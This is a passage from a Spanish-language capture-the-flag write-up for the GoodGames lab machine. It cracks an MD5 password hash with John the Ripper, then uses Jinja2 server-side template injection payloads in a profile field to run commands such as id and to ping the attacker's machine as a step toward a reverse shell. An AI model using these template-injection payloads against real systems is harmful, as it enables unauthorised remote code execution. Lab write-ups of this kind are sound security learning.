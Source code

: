 Para poder desencriptar el has usamos la tool **John the Ripper**
```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt Hash                 # Usamos John para crackear un hash con fuerza bruta

	# wordlist = Ruta del diccionario rockyou.txt
	# Hash = Archivo que contiene el hash a crackear
```

En caso de que marque error porque detecta muchos tipos de hash, debemos de especificarle uno. En este caso es MD5.
```bash
❯ john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt <Hashfile>            # Crackear un hash con un formato especifico

	# format = raw-md5 -> Formato especifico del hash (MD4,MD5, SHA1...)
	# raw = Tipo de hash estandar (raw-md5, raw-sha1, raw-sha256, whirlpool...)
	# hashfile = Archivo que contiene el hash a crackear
```
Nos devuelve la passwd : **superadministrator**

Regresando a la pagina en donde se encuentra el login **(internal-administration.goodgames.htb)** podemos colocar el usuario y password y asi entramos.
En la pagina volvemos a buscar un **SSTI** ya que el **Wapalizer** nos reporta que la pagina tiene como 'Servidor Web' **Flask 2.0.2** y como Lenguaje **Python 3.6.7** 
* Vamos a settings y en el campo **Full name** podemos agregar un usuario, despues de agregarlo nos sale el nombre del usuario en el output de la web. Por lo que intentamos colocar **{{7\*7}}** y si nos regresa un **49** es vulnerable al SSTI (Y si lo es)

Buscamos la pagina 'PayloadAllTheThings' y dentro colocamos:
* **Server Site Template Injection  >  Python - Jinja2  >  Remote Code Execution** 

Con este comando podriamos ver el **id** en el output de la web. Este se coloca en la parte de **Full name** en Settings
```bash 
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```
Miramos el id en el output de la web.

Por lo que ahora podemos hacer ejecucion remota de comandos. Hacemos una revershell a nuestra maquina de atacante 
Con este comando podriamos ver el **hostname -I** en el output de la web. Este se coloca en la parte de **Full name** en Settings
```bash 
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('hostname -I').read() }}
```
Miramos que estamos en la IP: **127.19.0.2** por lo que estariamos dentro de un **contenedor docker.**

Debemos de validar si el contenedor puede mandar trazas a nuestra maquina
```bash
❯ tcpdump -i tun0 icmp -n                   # Nos ponemos en escucha en la interfaz i = Tun0 para trazas ICMP, n = No DNS
```

Con este comando podriamos hacer **ping** desde el contenedor hacia nuestra maquina victima. Este se coloca en la parte de **Full name** en Settings
```bash 
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ping -c 1 10.10.14.2').read() }}
```
Tenemos conexion a nuestra maquina. 
